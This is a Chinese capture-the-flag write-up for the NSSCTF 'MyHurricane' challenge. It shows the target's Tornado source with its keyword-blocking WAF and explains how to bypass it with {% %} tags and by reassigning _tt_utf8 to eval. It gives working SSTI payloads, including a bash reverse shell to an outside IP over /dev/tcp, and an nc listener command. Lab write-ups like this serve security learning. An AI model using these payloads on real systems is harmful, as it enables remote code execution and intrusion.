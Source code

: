 ## 基本信息

- 题目名称：NSSCTF 2nd-MyHurricane
- 题目链接：https://www.nssctf.cn/problem/4283
- 考点清单：SSTI、Tornado
- 工具清单：Yakit
- payloads：Tornado SSTI

### 解题思路

题目给出代码：
```python
import tornado.ioloop
import tornado.web
import os


BASE_DIR = os.path.dirname(__file__)


def waf(data):
    bl = ['\'', '"', '__', '(', ')', 'or', 'and', 'not', '{{', '}}']
    for c in bl:
        if c in data:
            return False
    for chunk in data.split():
        for c in chunk:
            if not (31 < ord(c) < 128):
                return False
    return True


class IndexHandler(tornado.web.RequestHandler):
    def get(self):
        with open(__file__, 'r') as f:
            self.finish(f.read())

    def post(self):
        data = self.get_argument("ssti")
        if waf(data):
            with open('1.html', 'w') as f:
                f.write(f"""<html>
                        <head></head>
                        <body style="font-size: 30px;">{data}</body></html>
                        """)
                f.flush()
            self.render('1.html')
        else:
            self.finish('no no no')


if __name__ == "__main__":
    app = tornado.web.Application([
        (r"/", IndexHandler),
    ], compiled_template_cache=False)
    app.listen(827)
    tornado.ioloop.IOLoop.current().start()
```

很明显，这是一个tornado的SSTI题目。
源码直接告诉我们拦截关键词，省去了Fuzz探测的过程

### 过程和结果记录

在分析源码时，可以发现 `waf()` 函数对多种特殊字符和关键字进行了过滤，包括 `'`, `"`, `__`, `()`, `or`, `and`, `not`, `{{`, `}}` 等。此外，还对输入数据进行了字符范围检查，仅允许 ASCII 可见字符（31 < ord(c) < 128）。  

由于 `{{ }}` 被过滤，我们可以使用 `{% %}` 作为替代方案。Tornado 模板引擎支持 `{% %}` 作为代码块标识，能够绕过 WAF 对双大括号的检测。同时，利用 `_tt_utf8` 作为 `eval` 的别名，我们可以构造如下 payload 来执行任意代码：  

```
{%'print(flag)'%0a    _tt_utf8=eval%}
```

在这里，`%0a` 表示换行，紧接着的 `    `（四个空格）是为了满足 Tornado 模板中代码块的缩进要求。该 payload 实际上会将 `print(flag)` 赋值给 `_tt_tmp`，然后再执行 `eval(xhtml_escape(None))`。由于 `print()` 返回 `None`，因此 `eval()` 的参数为空，最终触发服务端报错。

为了解决这一问题，我们可以改用 `raw` 标签来包裹待执行代码，避免 `print` 返回值带来的问题。如下所示：

```
{% raw 'print(flag)'%0a    _tt_utf8=eval%}
```

接着，我们利用 `nc`（Netcat）开启监听：

```
nc -lvp 9999
```

由于 WAF 还对括号进行了过滤，进一步绕过时，我们利用 `request` 对象来构造 payload。`request` 对象可以获取到请求体中的参数，从而实现绕过：

```
ssti={% raw request.body_arguments[request.method][0]%0a    _tt_utf8=eval%}&POST=__import__('os').popen("bash -c 'bash -i >%26 /dev/tcp/107.XXX.XXX.XXX/9999 <%261'")
```

该 payload 中，`request.body_arguments` 读取了 POST 请求体中的 `__import__('os').popen()`，最终触发反弹 Shell。成功执行后，我们在 nc 中获得了 Shell 权限，并找到了 flag。  

![](images/NSSCTF%202nd-MyHurricane-nc.png)  

成功获取 flag 的结果如下：  

![](images/NSSCTF%202nd-MyHurricane-flag.png)  

### 总结
- 分析源码的能力很重要，我们可以直接得知 WAF 过滤的关键字，从而省去了 Fuzz 探测的步骤，提高了解题效率。
- 利用 `{% %}` 代替 `{{ }}`，并结合 `_tt_utf8` 变量，使 `eval` 执行我们的 payload，这个是一个巧妙的 SSTI 绕过方法，值得学习和掌握。